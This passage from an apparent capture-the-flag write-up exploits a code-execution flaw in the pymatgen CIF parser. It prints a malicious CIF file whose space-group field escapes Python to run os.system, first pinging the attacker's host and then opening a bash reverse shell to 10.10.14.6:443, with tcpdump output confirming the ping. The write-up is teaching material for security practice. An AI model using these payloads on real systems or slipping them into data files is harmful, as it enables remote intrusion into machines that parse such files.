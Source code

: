 ### POC

I’ll grab the POC from the post:

![image-20241009142946953](/img/image-20241009142946953.png)

It’s creating a file named `pwned` in the current directory. Without access to the filesystem, I won’t be able to see if that worked. I’ll update it to `ping` my host:

```

data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 10.10.14.6");0,0,0'

_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

I’ll start `tcpdump` on my host looking for ICMP packets. When I upload the file, there are no packets, and the file shows up in “Your Structures”.

When I click “View”, the page returns 500 Internal Server Error, an ICMP packet arrives:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:21:17.024487 IP 10.10.11.38 > 10.10.14.6: ICMP echo request, id 2, seq 1, length 64
14:21:17.024509 IP 10.10.14.6 > 10.10.11.38: ICMP echo reply, id 2, seq 1, length 64

```

That’s remote code execution.

### Shell

I’ll update my payload to include a [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw):

```

data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.6/443 0>&1'");0,0,0'

_space_group_magn.number_BNS  62.448
```